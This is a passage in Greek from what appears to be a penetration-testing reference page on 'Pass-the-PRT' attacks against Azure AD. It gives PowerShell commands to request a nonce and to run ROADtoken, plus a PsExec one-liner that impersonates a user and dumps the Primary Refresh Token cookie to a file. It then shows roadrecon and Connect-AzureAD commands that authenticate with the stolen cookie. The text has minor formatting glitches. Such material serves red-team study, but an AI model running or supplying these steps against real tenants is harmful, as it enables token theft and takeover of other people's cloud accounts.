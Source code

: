 Ως **ΣΥΣΤΗΜΑ** μπορείτε να **κλέψετε το PRT αν δεν προστατεύεται** από το TPM ή να **αλληλεπιδράσετε με τα κλειδιά PRT στο LSASS** χρησιμοποιώντας κρυπτογραφικές διεπαφές.

## Παραδείγματα Επίθεσης Pass-the-PRT

### Επίθεση - ROADtoken

Για περισσότερες πληροφορίες σχετικά με αυτόν τον τρόπο [**ελέγξτε αυτήν την ανάρτηση**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/). Το ROADtoken θα εκτελέσει το **`BrowserCore.exe`** από τον σωστό κατάλογο και θα το χρησιμοποιήσει για να **αποκτήσει ένα cookie PRT**. Αυτό το cookie μπορεί στη συνέχεια να χρησιμοποιηθεί με τα ROADtools για αυθεντικοποίηση και **απόκτηση μόνιμου ανανεωτικού διακριτικού**.

Για να δημιουργήσετε ένα έγκυρο cookie PRT, το πρώτο πράγμα που χρειάζεστε είναι ένα μοναδικό δείγμα.\
Μπορείτε να το πάρετε με:
```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI"     = $URL
"Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```
Ή χρησιμοποιώντας το [**roadrecon**](https://github.com/dirkjanm/ROADtools):
```powershell
roadrecon auth prt-init
```
Τότε μπορείτε να χρησιμοποιήσετε το [**roadtoken**](https://github.com/dirkjanm/ROADtoken) για να λάβετε ένα νέο PRT (εκτελέστε το εργαλείο από ένα διεργασία του χρήστη για επίθεση):
```powershell
.\ROADtoken.exe <nonce>
```
```html
Όπως oneliner:
```
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

Στη συνέχεια, μπορείτε να χρησιμοποιήσετε το **δημιουργημένο cookie** για να **δημιουργήσετε τα αναγνωριστικά** και να **συνδεθείτε** χρησιμοποιώντας το Azure AD **Graph** ή το Microsoft Graph:
```powershell
# Generate
roadrecon auth --prt-cookie <prt_cookie>

# Connect
Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```
### Επίθεση - Χρησιμοποιώντας το roadrecon
